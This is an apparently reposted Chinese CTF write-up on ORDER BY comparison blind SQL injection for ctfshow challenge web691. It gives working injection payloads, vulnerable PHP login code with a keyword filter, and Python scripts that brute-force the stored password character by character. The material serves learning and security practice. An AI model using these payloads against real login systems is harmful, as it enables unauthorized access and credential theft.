







# SQL order by 大小比较盲注-先知社区

> **来源**: https://xz.aliyun.com/news/18715  
> **文章ID**: 18715

---

# SQL order by 大小比较盲注

在做ctfshow web入门 的 web691时遇到了SQL order by 大小比较盲注问题。因为是第一次遇到，记录一下



在做题之前，我们先来探讨一下order by 比较大小盲注

在本地先自己搭建一个数据库




我们输入查询语句

```
SELECT * FROM `login` WHERE name=1 or 1 union SELECT 1,1,1 order by 3;
```



更换一下查询语句

```
SELECT * FROM `login` WHERE name=1 or 1 union SELECT 1,1,2 order by 3;
```



这里很明显就能看出，当用联合查询出来的passwd值1时，最终回显的是name=1而当我们输入passwd值为2时，最终回显的是name=admin即为第一条数据，并且在实际中我们不知道passwd的值，会回显一个密码错误，这样我们就可以根据回显一位一位来爆破password的值

```
s = '0123456789:abcdefghijklmnopqrstuvwxyz{'
password=''
for i in range(50):
    for j in s:
        payload=password+j
        data={
            'username':"'or 1 union select 1,1,'"+payload+"' order by 3#",
            'passwd':''
            }
        r=requests.post(url,data=data)
        if "wrong pass!" in r.text:
            password+=chr(ord(j)-1)
            print(password)
            break
```

回归到原题

```
<?php
 
include('inc.php');
highlight_file(__FILE__);
error_reporting(0);
function   filter($str){
      $filterlist = "/\(|\)|username|password|where|
      case|when|like|regexp|into|limit|=|for|;/";
      if(preg_match($filterlist,strtolower($str))){
        die("illegal input!");
      }
      return $str;
  }
$username = isset($_POST['username'])?
filter($_POST['username']):die("please input username!");
$password = isset($_POST['password'])?
filter($_POST['password']):die("please input password!");
$sql = "select * from admin where  username =
 '$username' and password = '$password' ";

$res = $conn -> query($sql);
if($res->num_rows>0){
  $row = $res -> fetch_assoc();
  if($row['id']){
     echo $row['username'];
  }
}else{
   echo "The content in the password column is the flag!";
}
?>
```

首先我们先通过order by 来猜测有3个字段

```
#username=1' or 1 union select 1,1 order by 2#&password=1
#回显"The content in the password column is the flag!"

username=1' or 1 union select 1,1,1 order by 3#&password=1
```

3个字段大概率为id,username,password

```
username=1' or 1 union select 1,1,'c' order by 3#&password=1
```



返回1,表明我们输入的`c`的ascill码还是小

```
username=1' or 1 union select 1,1,'d' order by 3#&password=1
```



成功回显admin

但这里要注意的是我们最后获得真实值是要在回显admin时的ascii减1



如图，真实passwd的第一位是小1的

直接上脚本

```
import requests
s=".0123456789:abcdefghijklmnopqrstuvwxyz{|}~"
print(s)
url="http://29a1ba96-4095-4b96-adbb-56e359b5e690.challenge.ctf.show/"
data={
    'username':"or 1 union select 1,1,'{}' order by 3#",
    'password':'1'
}
k=""
for i in range(1,50):
    print(i)
    for j in s:
        data={
        'username':"' or 1 union select 1,1,'{0}' order by 3#".format(k+j),
        'password':'1'
    }
        r=requests.post(url,data=data)
        #print(data['username'])
        if("</code>admin" in r.text):
            k=k+chr(ord(j)-1)
            print(k)
            break
```
